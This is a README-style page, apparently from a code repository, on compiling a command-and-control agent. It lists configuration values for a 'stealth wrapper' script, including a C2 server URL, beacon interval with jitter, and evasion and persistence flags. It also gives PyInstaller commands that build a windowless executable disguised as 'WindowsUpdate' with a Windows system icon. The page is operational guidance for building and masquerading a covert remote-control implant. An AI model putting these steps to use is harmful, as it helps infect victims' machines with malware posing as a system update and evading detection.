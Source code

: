 # TECHNICAL SPECS OF THE AGENTS

## Compilation of Agent

Compilation Steps
Before Compiling:
Edit Configuration Variables in stealth_wrapper.py:

```python
# IMPORTANT: Update these values before compiling
C2_SERVER_URL = "http://your-c2-server:5000"  # Change this to your actual C2 server URL
CHECK_INTERVAL = 45  # Time between C2 checks in seconds
JITTER = 15  # Random jitter added to interval
AGENT_PREFIX = "SHADOW"  # Prefix for agent identification
ENABLE_EVASION = True  # Enable evasion techniques
ENABLE_PERSISTENCE = False  # Keep this FALSE for initial testing
```
Ensure both files are in the same directory:
- advanced_agent.py and stealth_wrapper.py must be in the same folder
- version_info.txt (if using) should also be in this folder
## Compilation Process:
On Windows:
```bash
# Make sure PyInstaller is installed
pip install pyinstaller

# Basic compilation
pyinstaller --onefile --noconsole stealth_wrapper.py

# Enhanced compilation with disguise
pyinstaller --onefile --noconsole --name "WindowsUpdate" --icon "%SystemRoot%\System32\shell32.dll,21" --version-file version_info.txt --clean stealth_wrapper.py
```
On macOS/Linux (for testing):
```bash
# Make sure PyInstaller is installed
pip3 install pyinstaller

# Compile
python3 -m PyInstaller --onefile --noconsole stealth_wrapper.py
```

